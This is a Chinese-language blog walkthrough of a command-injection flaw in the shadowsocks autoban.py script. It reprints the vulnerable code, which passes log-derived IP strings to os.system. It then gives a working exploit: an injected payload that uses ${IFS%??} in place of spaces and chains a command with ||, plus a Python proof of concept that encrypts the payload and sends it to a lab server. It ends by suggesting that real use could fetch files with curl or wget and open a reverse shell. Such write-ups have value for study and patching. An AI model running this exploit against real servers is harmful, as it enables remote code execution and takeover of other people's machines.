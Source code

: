 ```yaml
---
title: shadowsocks远程命令执行
date: 2017-11-24 21:51:36
tags: shadowsocks
toc: true
---
```


利用条件：
1. 靶机上的`shadowsocks`是从`github`上`clone`的
2. 靶机开启了`autoban.py`脚本


---
问题出在`shadowsocks-master/utils/autoban.py`中
```
#!/usr/bin/python
# -*- coding: utf-8 -*-

# Copyright (c) 2015 clowwindy
#
# Permission is hereby granted, free of charge, to any person obtaining a copy
# of this software and associated documentation files (the "Software"), to deal
# in the Software without restriction, including without limitation the rights
# to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
# copies of the Software, and to permit persons to whom the Software is
# furnished to do so, subject to the following conditions:
#
# The above copyright notice and this permission notice shall be included in
# all copies or substantial portions of the Software.
#
# THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
# IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
# FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
# AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
# LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
# OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
# SOFTWARE.

from __future__ import absolute_import, division, print_function, \
    with_statement

import os
import sys
import argparse

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='See README')
    parser.add_argument('-c', '--count', default=3, type=int,
                        help='with how many failure times it should be '
                             'considered as an attack')
    config = parser.parse_args()
    ips = {}
    banned = set()
    for line in sys.stdin:
        if 'can not parse header when' in line:
            ip = line.split()[-1].split(':')[-2]
            if ip not in ips:
                ips[ip] = 1
                print(ip)
                sys.stdout.flush()
            else:
                ips[ip] += 1
            if ip not in banned and ips[ip] >= config.count:
                banned.add(ip)
                cmd = 'iptables -A INPUT -s %s -j DROP' % ip
                print(cmd, file=sys.stderr)
                sys.stderr.flush()
                os.system(cmd)
```
从sys.stdin读取输入，然后判断是否包含`can not parse header when`字样，如果有就进行截断
```
ip = line.split()[-1].split(':')[-2]
```
`split()`是采用默认空格为分隔符
当同一个`ip`出现的次数超过了设定的值（默认为3）,就会直接把它代入执行。
```
if ip not in banned and ips[ip] >= config.count:
                banned.add(ip)
                cmd = 'iptables -A INPUT -s %s -j DROP' % ip
                print(cmd, file=sys.stderr)
                sys.stderr.flush()
                os.system(cmd)
```

---
在靶机`192.168.32.51`上
下载`github`上的`shadowsocks`，使用
```
python ./shadowsocks/server.py -p 12345 -k 12345 --log-file /tmp/ss.log -d start
```
即可开启ss的服务
```
-p	端口
-k	口令
--log-file	日志文件
-d start	后台启动
```

客户端可用
```
python ./shadowsocks/local.py -s 192.168.32.51 -p 12345 -l 8090 -k 12345 
```
登录
```
-s	服务器地址
-p	服务器端口
-l	本地端口
-k	服务器登录口令
```
也可采用加载本地配置文件的方式启动
```
python ./shadowsocks/local.py -c /etc/shadowsocks.json
```

发现客户端对发送内容加密后才发送的。

ss服务器在接收到客户端发送过来的请求后，会对请求进行解析。关键解析函数`shadowsocks/common.py`中`parse_header(data)`函数在判断请求目标地址类型为域名后，会将其写入日志文件。

根据前面的分析，`payload`中是不能出现空格和`:`的，`:`可以避免，但是想执行命令，空格是必须的。
这里使用Linux中自带的IFS环境变量产生空格。
```
IFS(Internal Field Seprator)，即内部域分隔符，完整定义是“The shell uses the value stored in IFS, which is the space, tab, and newline characters by default, to delimit words for the read and set commands, when parsing output from command substitution, and when performing variable substituioin.”。
```
```
IFS=$' \t\n'  
```
使用`||`和` ${}`，尝试写入一个文件。
```
can not parse header when ||echo${IFS%??}'hacked！'>testhahaha.txt:\n
```

现在只需模拟客户端，把`payload`写到请求地址中就可以了。
```
# coding:utf-8
import socket
import sys,os
sys.path.insert(0, os.path.join(os.path.dirname(__file__), '../'))
import cryptor 

head = """can not parse header when ||echo${IFS%??}'hacked！'>testhahaha.txt:\n"""
target = ("03%02x%s0050" % (len(head), head.encode('hex'))).decode('hex') # 参考socks5协议, 03表示target是域名，然后两字节域名长度，再是目的地址，最后两字节是port

for i in range(3):
    c = cryptor.Cryptor("12345", "aes-256-cfb")
    tosend = c.encrypt(target)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.32.51', 12345))
    s.send(tosend)
    s.close()
```
把这个py文件放入shadowsocks文件夹中运行即可。、

在服务器端执行
```
python ./shadowsocks/utils/autoban.py < /tmp/ss.log
```
在当前文件夹下就会生成`testhahaha.txt`文档,证明命令执行成功


实际使用时，可以结合`curl`、`wget`命令从服务器下载文件，然后反弹shell。


----
参考：
https://paper.tuisec.win/detail/63207b0184fe59e
http://foreversong.cn/archives/730
https://x41-dsec.de/lab/advisories/x41-2017-008-shadowsocks/
https://github.com/shadowsocks/shadowsocks/tree/master
[SOCKS5协议[rfc1928]](https://www.cnblogs.com/happyhotty/articles/2181522.html)
[bash ${ } 用法总结 ](http://unixboy.iteye.com/blog/499329)